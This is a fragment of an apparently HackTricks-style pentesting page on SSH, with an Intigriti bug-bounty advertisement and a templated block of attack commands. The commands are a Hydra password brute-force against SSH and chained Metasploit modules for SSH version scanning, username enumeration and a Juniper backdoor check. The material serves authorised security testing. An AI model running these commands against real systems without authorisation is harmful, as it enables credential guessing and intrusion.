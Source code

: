 **Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## HackTricks Automatic Commands

```
Protocol_Name: SSH
Port_Number: 22
Protocol_Description: Secure Shell Hardening

Entry_1:
  Name: Hydra Brute Force
  Description: Need Username
  Command: hydra -v -V -u -l {Username} -P {Big_Passwordlist} -t 1 {IP} ssh
   
Entry_2:
  Name: consolesless mfs enumeration
  Description: SSH enumeration without the need to run msfconsole
  Note: sourced from https://github.com/carlospolop/legion
  Command: msfconsole -q -x 'use auxiliary/scanner/ssh/ssh_version; set RHOSTS {IP}; set RPORT 22; run; exit' && msfconsole -q -x 'use scanner/ssh/ssh_enumusers; set RHOSTS {IP}; set RPORT 22; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ssh/juniper_backdoor; set RHOSTS {IP}; set RPORT 22; run; exit'
   
```

{% hint style="success" %}